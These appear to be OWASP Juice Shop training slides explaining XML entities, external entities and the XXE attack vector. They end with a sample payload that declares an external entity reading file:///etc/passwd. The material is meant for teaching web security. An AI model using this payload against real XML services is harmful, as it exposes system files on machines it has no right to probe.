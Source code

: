 
# XML Entities

* In the Document Type Definition (DTD) you specify shortcuts as
  `ENTITY`...
    * `<!ENTITY author "Bjoern Kimminich">`
    * `<!ENTITY copyright "(C) 2018">`

* ...to later dereference them in the XML
    * `<author>&author; &copyright;</author>`

---

# External Entities

* DTD changed to use External Entities...
    * `<!ENTITY author SYSTEM
      "https://raw.githubusercontent.com/juice-shop/juice-shop/gh-pages/entities.dtd">`
    * `<!ENTITY copyright	SYSTEM
      "https://raw.githubusercontent.com/juice-shop/juice-shop/gh-pages/entities.dtd">`

* ...whereas the XML stays the same
    * `<author>&author; &copyright;</author>`

---

# [Attack Vector XXE](https://wiki.owasp.org/index.php/XML_External_Entity_(XXE)_Processing)

* Many older or poorly configured XML processors evaluate external
  entity references within XML documents

* External entities can be abused for
    * disclosure of internal files
    * internal port scanning
    * remote code execution
    * denial of service attacks

---

# XML with Attack Payloads

## Extracting Data

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
    <foo>&xxe;</foo>
```

---